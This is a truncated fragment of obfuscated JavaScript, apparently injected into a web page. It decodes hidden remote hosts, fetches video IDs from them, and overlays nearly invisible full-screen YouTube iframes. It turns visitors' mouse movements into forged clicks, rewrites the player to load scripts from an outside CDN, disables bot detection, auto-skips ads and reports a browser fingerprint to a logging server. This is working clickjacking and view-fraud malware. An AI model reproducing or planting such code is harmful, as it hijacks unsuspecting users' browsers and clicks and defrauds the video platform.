 document.onmousedown=showclick;}();}catch(e){}</script><script>try{!function(e,t){if(!window.showoge){window.showoge=!0;var i=function(){return this},n=atob("aHR0cHM6Ly9zdGF0bG9nLnN0YXR1c2VzLnNwYWNlLw=="),o=function(){return this.logData={fingerprint:"",type:"oge1",type_task:"yshowes",id:0,v:""},this};i.prototype={fillOptions:function(e){return["data","success","error","json","headers","creds"].forEach(function(t){void 0===e[t]&&(e[t]=null)}),e},getSend:function(e,t){return this.sender("GET",e,t)},postSend:function(e,t){return this.sender("POST",e,t)},sender:function(e,t,i){i=this.fillOptions(i);var n=new XMLHttpRequest;if(n.open(e,t,!0),i.json||"POST"!==e||n.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),n.onreadystatechange=function(){4===n.readyState&&200===n.status?i.success&&i.success(n.responseText):4==n.readyState&&200!=n.status&&i.error&&i.error(n.responseText,n.status)},i.creds&&(n.withCredentials=!0),i.headers)for(var o in i.headers)n.setRequestHeader(o,i.headers[o]);return i.data?n.send(i.data):n.send(),n}},o.prototype={add:function(e,t){this.logData[e]=t},push:function(e,t){this.logData[e].push(t)},send:function(){u.postSend(n+"event",{data:JSON.stringify(this.logData),json:!0})}};var d,s=window,r=document,a=0,c={},u=new i,l={},w=new o,h="xxxxxxxxxxxx4xxx".replace(/[xy]/g,function(e){var t=16*Math.random()|0;return("x"===e?t:3&t|8).toString(16)}),m=atob("aHR0cHM6Ly9zZXJ2aWNlLm5zZXJ2aWNlcy5zcGFjZS8="),f=atob("aHR0cHM6Ly93d3cueW91dHViZS5jb20v"),p=function(e){var t=r.getElementById("yshow_oge"+e);return t||null},y=[],g=!1,v=!1,x=function(){if(!v){var e=y.length;if(e&&!g){g=!0;for(var t,i=Math.floor(Math.random()*e),n=0;!y[i]&&n<5;)i=Math.floor(Math.random()*e),n++;if(y[i])if(t=p(y[i])){var o=window.innerWidth?window.innerWidth:window.screen&&window.screen.width?window.screen.width:1280,d=window.innerHeight?window.innerHeight:window.screen&&window.screen.height?window.screen.height:960;t.style.zIndex="999999999",t.style.width=o+"px",t.style.height=d+"px";var s,a=(s=y[i],r.getElementById("yifr_oge"+s)||null);try{a.contentWindow.focus(),v=!0,setTimeout(function(){v=!1},1e3)}catch(e){v=!1}g=!1}else y[i]=null;else g=!1}}},b=function(){a>0||u.postSend(m+"youlist.php?worker=1&uid="+h,{data:"",success:function(e){S(e)}})},S=function(e){a=0,y=[];var t=JSON.parse(e);if(t[18])for(var i in t[18])!function(e,t){setTimeout(function(){E(e)},5e3*(a+0))}({id:i+"",item:t[18][i]+""}),a++;0===a&&setTimeout(b,2e4)},E=function(e,t){c[e.id]={isready:!1,isclicked:!1,isended:!1};var i=window.innerWidth?window.innerWidth:window.screen&&window.screen.width?window.screen.width:1280,n=window.innerHeight?window.innerHeight:window.screen&&window.screen.height?window.screen.height:960,o=r.createElement("div");o.id="yshow_oge"+e.id,o.style.position="fixed",o.style.zIndex="9999999999",o.style.left=o.style.top="0",o.style.width=o.style.height="10px",o.style.opacity="0.01",o.style.overflow="hidden",r.body.appendChild(o);var d=r.createElement("iframe");d.src=f+"embed?v=1&utmoge="+e.id+"&utmogeid="+e.item,d.id="yifr_oge"+e.id,d.style.width=i+"px",d.style.height=n+"px",d.style.overflow="hidden",d.width=i+"",d.height=n+"",d.allow="autoplay; encrypted-media; picture-in-picture",o.appendChild(d)},T=0,H=!1,N=function(e,t){var i={itemid:l.itemid};i[e]=!0,t&&(i.error=!0),parent.postMessage(JSON.stringify(i),"*")},M=function(){w.send(),N("ogeend")},L=function(e){if(N("ogeclick"),!H){H=!0;var t=document.createEvent("MouseEvents");t.initMouseEvent("click",!0,!1,window,1,e.screenX,e.screenY,e.clientX,e.clientY,!1,!1,!1,!1,0,null),d.dispatchEvent(t),setTimeout(M,35e3)}},R=function(){var e=document.evaluate('//div[contains(@class,"ytp-cued-thumbnail-overlay-image")]',document,null,XPathResult.ANY_TYPE,null);if(!(d=e.iterateNext()))return++T>30?void N("ogeend",!0):void setTimeout(R,100);document.body.addEventListener("mousemove",L),w.add("fingerprint",h),w.add("id",parseInt(l.itemid)),w.add("v",l.item),N("ogeready")},j=function(){var e=r.location.href.match(new RegExp("utmoge=([0-9]+)(?:|&.*)$","i"));e&&(l.itemid=e[1]),r.location.href.match(new RegExp("\\?v=1&utmoge","i"))?(e=r.location.href.match(/utm[a-z]+id=(.*)$/i))&&(l.item=e[1],window.history.replaceState({},"",f+"embed/"+l.item+"?utmoge="+l.itemid),u.getSend(f+"embed/"+l.item,{success:function(e){var t="",i=e.match(/src="([^"]+base\.js)"/i);i&&(t=i[1]),e=(e=(e=(e=(e=e.replace(/src="(\/[^"]+\.js)"/gi,'src="https://cdn.cdnservice.space$1"')).replace(/"js":"(\/[^"]+\.js)"/gi,'"js":"https:\\/\\/cdn.cdnservice.space$1"')).replace("<head>",'<head><script>window.history.replaceState({}, "", "'+f+"embed/"+l.item+"?utmoge="+l.itemid+'");window.botguard = window.yt = window.ytcfg = window.ytcsi = window.ytglobal = window._yt_player = null;document.hasFocus = function(){ return true; };window.itemVal="'+l.item+'";window.itemBase="'+t+'";<\/script>')).replace("(isHidden)","(false)")).replace('window["ytInitialData"]','setInterval(function(){ var b = document.evaluate(\'//button[contains(@class,"ytp-ad-skip-button")]\', document, null, XPathResult.ANY_TYPE, null); a = b.iterateNext(); if(a) a.click(); }, 300);window["ytInitialData"]'),document.write(e),setTimeout(function(){j()},5e3)},headers:{"upgrade-insecure-requests":1,accept:"text/html,application/xhtml+xml,application/xml;q=0.9,*!/!*;q=0.8"},creds:!0})):((e=r.location.href.match(/embed\/([^\/]+)\?utm/i))&&(l.item=e[1]),l.itemid&&l.item&&R())};window.top===window.self?(s.addEventListener("message",function(e){try{var t=JSON.parse(e.data)}catch(e){}if(t){if(t.ogeready){if(c[t.itemid].isready)return;c[t.itemid].isready=!0,function(e){y.push(e.itemid)}(t)}if(t.ogeclick&&(c[t.itemid].isclicked=!0,function(e){var t=p(e.itemid);t&&(t.style.width=t.style.height="10px")}(t)),t.ogeend){if(c[t.itemid].isended)return;c[t.itemid].isended=!0,setTimeout(function(){!function(e){var
